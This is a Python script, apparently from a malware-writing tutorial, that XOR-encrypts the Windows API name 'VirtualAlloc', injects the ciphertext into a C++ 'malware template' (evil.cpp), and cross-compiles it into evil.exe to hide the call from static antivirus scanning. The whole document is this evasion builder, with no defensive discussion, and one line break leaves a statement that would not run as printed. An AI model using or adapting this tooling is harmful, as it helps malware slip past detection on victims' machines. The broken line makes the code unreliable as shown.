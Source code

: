```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.
    join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
plaintext = "VirtualAlloc"
my_secret_key = "meowmeow"

## encrypt VirtualAlloc
ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char cVirtualAlloc[] = { };', 
'unsigned char cVirtualAlloc[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp"
    cmd += " -o evil.exe -s -ffunction-sections"
    cmd += " -fdata-sections -Wno-write-strings"
    cmd += " -fno-exceptions -fmerge-all-constants"
    cmd += " -static-libstdc++ -static-libgcc"
    cmd += " >/dev/null 2>&1"
    os.system(cmd)
except:
    print ("error compiling malware template :(")
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")
```
